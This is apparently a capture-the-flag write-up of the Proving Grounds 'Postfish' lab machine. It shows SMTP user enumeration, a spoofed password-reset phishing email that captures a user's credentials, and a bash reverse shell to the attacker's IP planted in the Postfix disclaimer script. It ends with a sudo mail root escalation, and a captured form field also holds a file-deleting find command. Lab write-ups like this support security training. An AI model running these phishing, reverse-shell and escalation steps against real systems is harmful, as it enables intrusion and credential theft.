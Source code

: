 ```yaml
---
title: "Proving grounds Practice: Potfish"
layout: post
date: 2024-05-20 02:00
categories: writeup
---
```


Proving grounds Practice - Potfish CTF writeup.

# NMAP
```text
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
25/tcp  open  smtp     Postfix smtpd
80/tcp  open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp open  pop3     Dovecot pop3d
143/tcp open  imap     Dovecot imapd (Ubuntu)
993/tcp open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp open  ssl/pop3 Dovecot pop3d
Service Info: Host:  postfish.off; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 80/tcp  open  http Apache httpd 2.4.41 ((Ubuntu))
Nothing here...

Create custom wordlist based on the texts in the webpage

```sh
cewl http://postfish.off/team.html -m 5 -w team.txt
```

## 25/tcp  open  smtp Postfix smtpd

Enumerate snmp users

```sh
smtp-user-enum -U team.txt -t 192.168.228.137
######## Scan started at Sat Oct 28 07:50:55 2023 #########
192.168.228.137: Sales exists
192.168.228.137: Legal exists
######## Scan completed at Sat Oct 28 07:51:11 2023 #########
2 results.
```

### Usernames found

Sales
Legal

**Users in the website**

Claire Madison
Mike Ross
Brian Moore
Sarah Lorem

**Common email naming**

- claire.madison@postfish.off
- mike.ross@postfish.off
- brian.moore@postfish.off
- sarah.lorem@postfish.off

```shell
naveenj@hackerspace:[08:01]~/proving_grounds/Postfish$ smtp-user-enum -U usr -t postfish.off
Starting smtp-user-enum v1.2 ( http://pentestmonkey.net/tools/smtp-user-enum )

 ----------------------------------------------------------
|                   Scan Information                       |
 ----------------------------------------------------------

Mode ..................... VRFY
Worker Processes ......... 5
Usernames file ........... usr
Target count ............. 1
Username count ........... 8
Target TCP port .......... 25
Query timeout ............ 5 secs
Target domain ............ 

######## Scan started at Sat Oct 28 08:01:52 2023 #########
postfish.off: claire.madison@postfish.off exists
postfish.off: sarah.lorem exists
postfish.off: brian.moore exists
postfish.off: mike.ross exists
postfish.off: claire.madison exists
postfish.off: sarah.lorem@postfish.off exists
postfish.off: mike.ross@postfish.off exists
postfish.off: brian.moore@postfish.off exists
######## Scan completed at Sat Oct 28 08:01:54 2023 #########
8 results.

8 queries in 2 seconds (4.0 queries / sec)
```

The scan shows the users exist.

Check email messages using imap protocol by using curl

```sh
curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
```

```shell
naveenj@hackerspace:[08:16]~/proving_grounds/Postfish$ curl -k 'imaps://postfish.off/INBOX;MAILINDEX=1' --user sales:sales
Return-Path: <it@postfish.off>
X-Original-To: sales@postfish.off
Delivered-To: sales@postfish.off
Received: by postfish.off (Postfix, from userid 997)
	id B277B45445; Wed, 31 Mar 2021 13:14:34 +0000 (UTC)
Received: from x (localhost [127.0.0.1])
	by postfish.off (Postfix) with SMTP id 7712145434
	for <sales@postfish.off>; Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
Subject: ERP Registration Reminder
Message-Id: <20210331131139.7712145434@postfish.off>
Date: Wed, 31 Mar 2021 13:11:23 +0000 (UTC)
From: it@postfish.off

Hi Sales team,

We will be sending out password reset links in the upcoming week so that we can get you registered on the ERP system.

Regards,
IT
```

### Sending email using smtp

```shell
- Connect to port using netcat
nc -nv 192.168.209.137 25

- From address
MAIL FROM: it@postfish.off
250 2.1.0 Ok

- To address
RCPT TO: brian.moore@postfish.off
250 2.1.5 Ok

- Begin data
DATA
354 End data with <CR><LF>.<CR><LF>
Subject: Password reset process
Hi Brian,

Please follow this link to reset your password: http://192.168.45.205

regards,

-End data
.
250 2.0.0 Ok: queued as A6BCB4543F

- Exit
QUIT
221 2.0.0 Bye
```

![img](/assets/images/CTF/Proving_Grounds/Potfish/smtp.png)

Upon sending the link in the email they sent us the new password.

```shell
naveenj@hackerspace:[08:29]~/proving_grounds/Postfish$ nc -lvnp 80
listening on [any] 80 ...


connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 53910
POST / HTTP/1.1
Host: 192.168.45.205
User-Agent: curl/7.68.0
Accept: */*
Content-Length: 207
Content-Type: application/x-www-form-urlencoded

first_name%3DBrian%26last_name%3DMoore%26email%3Dbrian.moore%postfish.off%26username%3Dbrian.moore%26password%3DEternaLSunshinE%26confifind /var/mail/ -type f ! -name sales -delete_password%3DEternaLSunshinE
```

### url decoded

```text
first_name=Brian&last_name=Moore&email=brian.moore%postfish.off&username=brian.moore&password=EternaLSunshinE&confifind/var/mail/-typef!-namesales-delete_password=EternaLSunshinE
```

### Credentials
brain.moore:EternaLSunshinE

## Privilege Escalation

Run linpeas.

```sh
╔══════════╣ My user
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#users
uid=1000(brian.moore) gid=1000(brian.moore) groups=1000(brian.moore),8(mail),997(filter)

╔══════════╣ Searching folders owned by me containing others files on it (limit 100)

╔══════════╣ Readable files belonging to root and readable by me but not world readable
-rwxrwx--- 1 root filter 1184 Oct 28 12:42 /etc/postfix/disclaimer
```

Add reverse shell to the disclaimer script file.

```sh
#!/bin/bash

bash -i >& /dev/tcp/192.168.45.205/443 0>&1;
```

Repeat what we did for initial foothold. So whenever the system receives and sends any emails it will include the disclaimer content from a text file. And this script will be executed.

```shell
naveenj@hackerspace:[09:05]~/proving_grounds/Postfish$ nc -lvnp 443
listening on [any] 443 ...
connect to [192.168.45.205] from (UNKNOWN) [192.168.209.137] 47838
bash: cannot set terminal process group (31813): Inappropriate ioctl for device
bash: no job control in this shell
filter@postfish:/var/spool/postfix$ sudo -l
sudo -l
Matching Defaults entries for filter on postfish:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User filter may run the following commands on postfish:
    (ALL) NOPASSWD: /usr/bin/mail *
```

### GTFO Bins Exploit

```sh
sudo mail --exec='!/bin/bash'
```

## Exploitation

```shell
filter@postfish:/var/spool/postfix$ sudo mail --exec='!/bin/sh'
sudo mail --exec='!/bin/sh'
id
uid=0(root) gid=0(root) groups=0(root)
whoami
root
```

**Root Obtained**

For more updates and insights, follow me on Twitter: [@thevillagehacker](https://twitter.com/thevillagehackr).